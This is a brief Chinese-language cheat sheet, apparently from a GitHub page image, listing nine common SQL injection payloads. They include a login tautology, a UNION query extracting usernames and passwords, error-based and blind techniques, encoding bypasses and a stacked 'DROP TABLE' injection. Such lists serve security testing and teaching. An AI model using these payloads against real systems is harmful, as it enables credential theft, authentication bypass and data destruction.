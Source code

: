 # 常见SQL注入手法

1. 基本 SQL 注入: `' OR '1'='1`
2. 联合查询注入: `' UNION SELECT username, password FROM users --`
3. 报错注入: `' AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT password FROM users LIMIT 1))) --`
4. 时间盲注: `' AND IF(1=1, SLEEP(5), 0) --`
5. 布尔盲注: `' AND (SELECT COUNT(*) FROM users WHERE username = 'admin') > 0 --`
6. URL 编码绕过: `%27 OR 1=1 --`
7. 十六进制编码绕过: `0x27 OR 1=1 --`
8. 参数化查询验证: `user'input; DROP TABLE comments; --`
9. 输入过滤验证: `admin'; --`
